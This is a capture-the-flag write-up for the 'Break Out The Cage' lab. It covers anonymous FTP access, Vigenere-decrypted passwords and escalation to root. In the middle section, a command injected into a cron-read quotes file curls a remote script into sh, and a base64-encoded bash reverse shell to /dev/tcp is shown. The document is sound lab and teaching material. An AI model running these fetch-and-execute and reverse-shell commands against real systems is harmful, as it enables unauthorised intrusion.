









## TL;DR

In this challenge we first find `weston`'s ssh password inside encrypted file on the ftp service (anonymous login). We then escape the cage using `Os Command Injection` based on the quotes sending using the command `wall`.

Lastly, we find the `root` password inside emails, encrypted in `vigenere` cipher with the key `face`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh, and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                  
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3                                                                                                             
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                       
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks                                                                                          
| ftp-syst:                                                                                                                                                  
|   STAT:                                                                                                                                                    
| FTP server status:                                                                                                                                         
|      Connected to ::ffff:192.168.138.59                                                                                                                    
|      Logged in as ftp                                                                                                                                      
|      TYPE: ASCII                                                                                                                                           
|      No session bandwidth limit                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                     
|      Control connection is plain text                                                                                                                      
|      Data connections will be plain text                                                                                                                   
|      At session startup, client count was 2                                                                                                                
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn+KLEDP81/6ceCvdFeDrLFYWSWc6UnOmmpiNeXuyr+GRvE5Eff4DOeTbiEIcHQkkPcz2QXiOLd9SMjCEgAqmZiZE/mv1HJpQfmRLOufOlf9oZ1TIZf7ehKcVqX0W3nuQeC+M2wLBse2lGhovnTSaZKLKRjQCP2yD1EzND/xFA88oFpahvr6vJfyGOTADjc83AJq9n3Gnil4Nd88xNsIKTl01Mm9ikE/3n/XFbwzYa2bYJRVr+lWWRd+EU3sYTY80PQgBiw6ZPT0QCe0lQfmcgCqu4hC+t/kyfmMRlbtjN/yZJ0gCWeVVAV+A4NNgsOqFbXUT+c6ATzYNhBXRojJED
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3G1rdbZBOf44Cvz2YGtC5WhIHfHQhtShY8miCVHayvHM/9reA8VvLx9jBOa+iClhm/HairgvNV6pYV6Jg6MII=
|   256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFiTPEbVpYmF2d/NDdhVYlXWA5PmTHhtrtlAaTiEuZOj
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Nicholas Cage Stories
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `breakoutthecage.thm` to my `/etc/hosts`

### Find weston ssh password inside encrypted file on ftp service

First, I went to port `21` and logged in anonymously, and then downloaded the file `dads_tasks`:
```bash
┌──(agonen㉿kali)-[~/thm/BreakOutTheCage]                                                                                                                    
└─$ ftp anonymous@breakoutthecage.thm                                                                                                                        
Connected to breakoutthecage.thm.                                                                                                                            
220 (vsFTPd 3.0.3)                                                                                                                                           
331 Please specify the password.                                                                                                                             
Password:                                                                                                                                                    
230 Login successful.                                                                                                                                        
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||46796|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 25  2020 .
drwxr-xr-x    2 0        0            4096 May 25  2020 ..
-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
226 Directory send OK.
ftp> get dad_tasks
local: dad_tasks remote: dad_tasks
229 Entering Extended Passive Mode (|||28867|)
150 Opening BINARY mode data connection for dad_tasks (396 bytes).
100% |****************************************************************************************************************|   396       98.47 KiB/s    00:00 ETA
226 Transfer complete.
396 bytes received in 00:00 (2.62 KiB/s)
ftp> exit
221 Goodbye.
```

Now, we can read it. It looks like base64 encoded file, let's decode it:
```bash
┌──(agonen㉿kali)-[~/thm/BreakOutTheCage]
└─$ cat dad_tasks | base64 -d 
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

Okay, this is encrypted message. I guess this is `Vigenere` cipher, I used [https://www.dcode.fr/vigenere-cipher](https://www.dcode.fr/vigenere-cipher) to decode it.



This is the decoded message (almost, it looks a bit broken):
```bash
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```


It looks like we found `weston`'s password, which is `Mydadisghostrideraintthatcoolnocausehesonfirejokes`.
Here we can find the username `weston`:



Now, let's login via ssh



### Escape the cage using Os Command Injection on the quotes sending

When I logged in, I notice we are inside a `cage`, and that we are in the group `cage`:
```bash
weston@national-treasure:/$ id
uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)
```

Okay, let's search for files from this group:
```bash
weston@national-treasure:/$ find / -user cage -type f 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

I also noticed that every minute we get some random message being sent under user `cage`:



We control the script `spread_the_quotes.py`, which is being executed every minute.
```bash
weston@national-treasure:/$ ls -la /opt/.dads_scripts/
total 16
drwxr-xr-x 3 cage cage 4096 May 26  2020 .
drwxr-xr-x 3 root root 4096 May 25  2020 ..
drwxrwxr-x 2 cage cage 4096 May 25  2020 .files
-rwxr--r-- 1 cage cage  255 May 26  2020 spread_the_quotes.py
weston@national-treasure:/$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

Let's change it and add our penelope rev shell payload. Oh, we can't change it, because we are only in group `cage` but not have the UID of `cage`. However, we can modify the `.quotes` file, and then achieve `OS Command Injection`

you can see write permissions to group `cage`.
```bash
weston@national-treasure:/$ ls -la /opt/.dads_scripts/.files/.quotes
-rwxrw---- 1 cage cage 4204 May 25  2020 /opt/.dads_scripts/.files/.quotes
```

Let's remove all quotes and put only our payload for `OS Command Injection` with rev shell, I'll use the payload with python server, where I put inside `rev_shell.sh` the command to execute.

So, this is the command for overriding the file:
```bash
weston@national-treasure:/$ echo -e 'LOL ; curl http://192.168.138.59:8081/rev_shell.sh | sh' > /opt/.dads_scripts/.files/.quotes
```

and on our local machine, set up the listener
```bash
┌──(agonen㉿kali)-[~/thm/BreakOutTheCage]
└─$ echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzguNTkvNDQ0NCAwPiYxKSAm|base64 -d|bash' > rev_shell.sh
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/BreakOutTheCage]
└─$ python3 -m http.server 8081                        
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.64.143.51 - - [26/Jan/2026 19:36:01] "GET /rev_shell.sh HTTP/1.1" 200 -
```

and we got our reverse shell



and the user flag:
```bash
cage@national-treasure:~$ cat Super_Duper_Checklist 
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

### Privilege Escalation to Root using password decryption

we can find inside `~/email_backup` several emails, it looks like we need to decrypt the word `haiinspsyanileph`. I guess the key is `face`, and it encrypted with vigenere.



Using CyberChef I decoded the word, and got the password `cageisnotalegend`:



Now, we `su` to root with teh password



and grab the root flag
```bash
root@national-treasure:~/email_backup# cat *
From - SeanArcher@BigManAgents.com
To - master@ActorsGuild.com

Good Evening Master

My control over Cage is becoming stronger, I've been casting him into worse and worse roles.
Eventually the whole world will see who Cage really is! Our masterplan is coming together
master, I'm in your debt.

Thank you

Sean Archer
From - master@ActorsGuild.com
To - SeanArcher@BigManAgents.com

Dear Sean

I'm very pleased to here that Sean, you are a good disciple. Your power over him has become
strong... so strong that I feel the power to promote you from disciple to crony. I hope you
don't abuse your new found strength. To ascend yourself to this level please use this code:

THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}

Thank you

Sean Archer
```